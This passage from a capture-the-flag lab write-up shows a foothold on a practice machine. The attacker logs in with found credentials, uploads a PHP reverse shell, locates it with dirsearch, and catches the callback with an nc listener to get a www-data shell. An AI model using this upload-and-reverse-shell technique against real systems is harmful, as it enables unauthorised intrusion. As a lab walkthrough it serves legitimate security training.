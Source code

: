 Let's authenticate with the credentials found (`enox:P@ssword1234`). We are redirected to http://10.10.127.236/sUp3r-s3cr3t/home.php with an upload form.

## Upload form

Let's upload a [PHP reverse shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz). Make sure you modify both your IP and port to the PHP file before uploading it.

The reverse shell is uploaded but we don't know where. Let's use dirsearch within the `/sUp3r-s3cr3t` directory to find sub-directories:

~~~
unknown@kali:/data/Tartarus/files$ /data/src/dirsearch/dirsearch.py -u http://10.10.127.236/sUp3r-s3cr3t/ -E -w /usr/share/wordlists/dirb/common.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /data/src/dirsearch/logs/errors-20-08-22_07-43-36.log

Target: http://10.10.127.236/sUp3r-s3cr3t/

[07:43:36] Starting: 
[07:43:37] 200 -  732B  - /sUp3r-s3cr3t/
[07:43:37] 403 -  278B  - /sUp3r-s3cr3t/.hta
[07:43:48] 301 -  328B  - /sUp3r-s3cr3t/images  ->  http://10.10.127.236/sUp3r-s3cr3t/images/
[07:43:49] 200 -  732B  - /sUp3r-s3cr3t/index.html

Task Completed
~~~

Browsing http://10.10.127.236/sUp3r-s3cr3t/images/ reveals the presence of an `uploads` subdirectory (`/sUp3r-s3cr3t/images/uploads/`).

## Reverse shell

Let's run a listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

And call our reverse shell: http://10.10.127.236/sUp3r-s3cr3t/images/uploads/shell.php. We now have a shell:

~~~
unknown@kali:/data/Tartarus/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.9.0.54] from (UNKNOWN) [10.10.127.236] 52018
Linux ubuntu-xenial 4.4.0-184-generic #214-Ubuntu SMP Thu Jun 4 10:14:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:46:19 up 24 min,  0 users,  load average: 0.00, 0.01, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
~~~
